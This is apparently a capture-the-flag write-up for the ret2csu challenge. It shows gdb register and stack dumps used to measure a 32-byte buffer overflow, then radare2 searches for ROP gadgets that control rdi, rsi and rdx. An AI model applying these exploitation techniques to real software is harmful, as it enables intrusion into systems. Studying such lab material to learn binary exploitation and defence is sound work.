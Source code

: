 - Program seg-faulted, so analyse registers and stack to see what amount of data is required to overflow buffer:
> (gdb) `i r`  
```
[...]
rbp            0x4545454545454545  0x4545454545454545
rsp            0x7ffc24812018      0x7ffc24812018
[...]
```
> (gdb) `x/4gx $rsp`  
```
0x7ffc24812018:	0x4646464646464646	0x4747474747474747
0x7ffc24812028:	0x00007fe5d4da300a	0x0000000000000031
```
- 0x4545454545454545 == "EEEEEEEE"
- 0x4646464646464646 == "FFFFFFFF"
- Therefore buffer is 32 bytes in size, after that is the base pointer followed by the return address

## Look for ROP Gadgets
- We know from the challenge's goal (i.e. `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`), rdi, rsi and rdx registers need to be set
- Open ELF binary in radare2 for further analysis:
> $ `r2 -A ./ret2csu`  
- Look for ROP gadgets that can control rdx:
> [0x00400520]> `/R rdx`  
```
[...]
  0x00400680             4c89fa  mov rdx, r15
  0x00400683             4c89f6  mov rsi, r14
  0x00400686             4489ef  mov edi, r13d
  0x00400689           41ff14dc  call qword [r12 + rbx*8]
```
- With above gadget, rdx and rsi can be controlled if we first have control over r15 and 14 respectively
- NOTE 1: Gadget ends with a `call`, not a `ret`
- NOTE 2: The `call qword [r12 + rbx*8]` instruction makes a call to a **pointer** to a function (i.e. the function's memory address needs to be stored somewhere else in memory, which we then reference)
- NOTE 3: The `mov edi, r13d` instruction will not help set rdi, so rdi will have to be set afterwards separately

- Look for ROP gadgets that can control r12, r14, r15:
> [0x00400520]> `/R pop r12`  
```
  0x0040069c               415c  pop r12
  0x0040069e               415d  pop r13
  0x004006a0               415e  pop r14
  0x004006a2               415f  pop r15
  0x004006a4                 c3  ret
```

- Look for ROP gadgets that can control rdi:
> [0x00400520]> `/R pop rdi`  
```
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```
